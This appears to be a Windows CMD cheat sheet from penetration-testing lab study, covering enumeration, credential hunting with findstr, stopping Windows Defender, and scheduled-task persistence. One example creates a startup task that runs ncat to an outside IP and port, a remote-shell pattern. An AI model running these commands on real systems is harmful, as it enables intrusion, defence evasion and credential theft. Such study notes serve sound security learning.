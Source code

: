 # Windows CMD Reference

## File commands CMD

```cmd
# Basic system info
whoami
whoami /priv        # privileges
whoami /groups      # groups
systeminfo          # OS and patch details
hostname
ver                 # Windows version

ipconfig /all       # full network configuration
arp -a              # ARP cache

# Network and sharing
net localgroup      # show local groups
net share           # shared folders
net view            # list servers in the domain/workgroup

# Active processes and services
tasklist
tasklist /svc       # show associated services
```

## Enumeration

```cmd
# Basic system info
whoami
whoami /priv        # privileges
whoami /groups      # groups
systeminfo          # OS and patch details
hostname
ver                 # Windows version

ipconfig /all       # full network configuration
arp -a              # ARP cache

# Network and sharing
net localgroup      # show local groups
net share           # shared folders
net view            # list servers in the domain/workgroup

# Active processes and services
tasklist
tasklist /svc       # show associated services
```

## Finding files

[findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) - cheatsheet

```cmd
# Locate files
where /R
where /R C:\Users\student\ *.csv

find "password" "C:\Users\student\not-passwords.txt" 

# General find files
dir n:\*cred* /s /b
n:\Contracts\private\credentials.txt

# Grep like
findstr /s /i cred n:\*.*
n:\Contracts\private\secret.txt:file with all credentials
n:\Contracts\private\credentials.txt:admin:SecureCredentials!

# find compare
fc passwords.txt modded.txt /N
comp .\file-1.md .\file-2.md
```

## Env Variable

```cmd
echo %WINDIR%
set SECRET=HTB{5UP3r_53Cr37_V4r14813}
echo %SECRET%

# Registry locations (for reference)
# System-wide
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
# User-specific
HKEY_CURRENT_USER\Environment
```

## Services handling

```cmd
# Query services
sc query type= service
sc query windefend
sc stop windefend

tasklist /svc
net start
wmic service list brief

# Disable a service
sc config bits start= disabled
```

## Scheduled tasks

#### Query Syntax

```cmd
# View scheduled tasks (verbose, list output)
schtasks /Query /V /FO LIST

# Create a task that runs at system startup (persistence example)
schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

/create : to tell it what we are doing
/sc : we must set a schedule
/tn : we must set the name
/tr : we must give it an action to take

# Modify an existing task (change run user / password)
schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

/tn 	Designates the task to change
/tr 	Modifies the program or action that the task runs.
/ENABLE 	Change the state of the task to Enabled.
/DISABLE 	Change the state of the task to Disabled.

# Query a specific task (verbose)
schtasks /query /tn "My Secret Task" /V /fo list

# Delete a task
schtasks /delete /tn "My Secret Task" /f
```

## Quick Notes

- `systeminfo` often reveals missing hotfixes and patch-level details useful for exploitation/privesc checks.
- `findstr /s /i` and `where /R` are invaluable for credential hunting (`password`, `secret`, `key`, `token`, `cred`).
- Check both user and system environment vars and registry-backed env entries for secrets or persistence.
- Services: watch for unquoted service paths, weak ACLs, or services running as SYSTEM.
- Scheduled tasks are a common persistence vector; always enumerate with verbose output.
- Use `tasklist /svc` and `wmic service list brief` to map processes to services and investigate privilege contexts.

